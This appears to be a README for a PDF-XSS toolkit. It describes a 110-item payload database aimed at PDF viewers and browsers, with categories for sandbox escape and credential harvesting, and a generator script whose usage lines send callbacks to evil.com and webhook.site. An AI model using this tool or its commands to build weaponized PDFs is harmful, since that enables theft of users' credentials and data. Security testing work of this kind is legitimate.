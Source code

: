 # PDF-XSS Enhanced Features and Improvements

## 🚀 Overview

The PDF-XSS folder has been significantly enhanced with advanced features, sophisticated payloads, and comprehensive testing capabilities. This document outlines all the improvements and new functionality.

## 📈 Major Enhancements

### 1. ✅ Advanced Payload Database (110 High-Quality Payloads)

**Enhanced Features:**
- **Quality Scoring System**: Each payload has a quality score (0-100) based on complexity, techniques, and effectiveness
- **25 Advanced Payloads**: Added cutting-edge techniques including WebAssembly, SharedArrayBuffer, Service Workers, etc.
- **Browser-Specific Optimization**: Payloads optimized for Chrome (38), Firefox (23), Safari (16), Adobe (17), and Edge (16)
- **Intelligent Duplicate Detection**: Advanced deduplication using content hashing and normalization
- **CVE Integration**: Comprehensive CVE references for each payload with real vulnerability research

**New Payload Categories:**
- `sandbox_escape` - Advanced PDF sandbox bypass techniques
- `webassembly_exploitation` - Binary payload execution via WebAssembly
- `service_worker_abuse` - Request interception and manipulation
- `shared_array_buffer` - Memory-based exploitation techniques
- `broadcast_channel` - Cross-tab communication abuse
- `credential_management` - Stored credential access attempts
- `performance_timeline` - Timing information disclosure
- `payment_request_api` - User information harvesting

### 2. ✅ Another-Script.py - Advanced Browser-Specific Generator

**New Features:**
- **Comprehensive PDF Generation**: Creates single PDF files with all payloads for a browser (one per page)
- **Advanced PDF Structures**: Implements forms, annotations, embedded JavaScript, and interactive elements
- **Enhanced Cross-Reference Tables**: Proper PDF object management and referencing
- **Browser-Specific Optimization**: Tailored PDF structures for maximum compatibility
- **File Hash Verification**: SHA-256 hash generation for integrity verification

**Usage Examples:**
```bash
# Generate comprehensive Chrome PDF with all payloads
python3 Another-Script.py -b chrome -u http://test.com

# Create Firefox-specific PDF with custom prefix
python3 Another-Script.py -b firefox -u http://evil.com --filename-prefix "assessment"

# Generate Adobe Reader targeting PDF
python3 Another-Script.py -b adobe -u https://webhook.site/xyz --pdf-version 2.0
```
